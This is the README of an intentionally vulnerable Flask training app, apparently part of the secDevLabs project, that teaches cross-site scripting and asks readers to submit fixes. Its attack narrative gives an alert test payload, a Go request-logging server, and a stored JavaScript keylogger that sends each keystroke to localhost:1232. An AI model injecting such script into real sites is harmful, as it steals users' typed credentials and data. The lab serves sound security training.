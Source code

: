 # Gossip World

<p align="center">
    <img src="images/banner.png"/>
</p>

Gossip World is a simple Flask app that contains an example of multiple Injection (XSS) vulnerabilities and its main goal is to describe how a malicious user could exploit them on this purposefully vulnerable app.

## Index

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/gossip-world
```

```sh
make install
```

Then simply visit [localhost:10007][app] ! 😆

## Get to know the app 💄

To properly understand how this application works, you can follow these simple steps:

- Create a new user
- Try leaving a comment on a gossip
- Try creating your gossip!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

#### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that some entries are not sanitized and can be executed on a web browser. It occurs on _search_, _comment_ and _post_ fields. The following images show this behavior when the following text is used as an input on these fields:

```
<script>alert(1)</script>
```

Searching for a post:
<img src="images/attack-1.png" align="center"/>
<img src="images/attack-2.png" align="center"/>

Adding a new comment to a post:
<img src="images/attack-3.png" align="center"/>
<img src="images/attack-4.png" align="center"/>

Adding a new post:
<img src="images/attack-5.png" align="center"/>
<img src="images/attack-6.png" align="center"/>

The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

### 🔥

An attacker may abuse these flaws by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will get all keyboard input from a user by persisting a malicious code in the server.

First, the following Golang API can be built (main.go) that logs all received requests:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```

To run this code simply type the following command in your terminal (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang):

```sh
go run main.go
```

Then, the attacker can insert a new post through the **/newgossip** route by using the following code in the text field:

```html
<script>
  var k = "";
  document.onkeypress = function (e) {
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = "http://localhost:1232/" + k;
  };
</script>
```

This code implements a keylogger to capture all keyboard input from users and send it to the API created beforehand.

   <img src="images/attack-7.png" align="center"/>

When a victim accesses the post, the browser will interpret the text between the script tag as code and will execute it secretly. The following image shows the victim typing letters into the page that has been "infected" by the malicious JS:

<img src="images/attack-8.png" align="center"/>

The attacker now gets all the input on the server log, as shown below:

<img src="images/attack-9.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute scripts through input fields

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
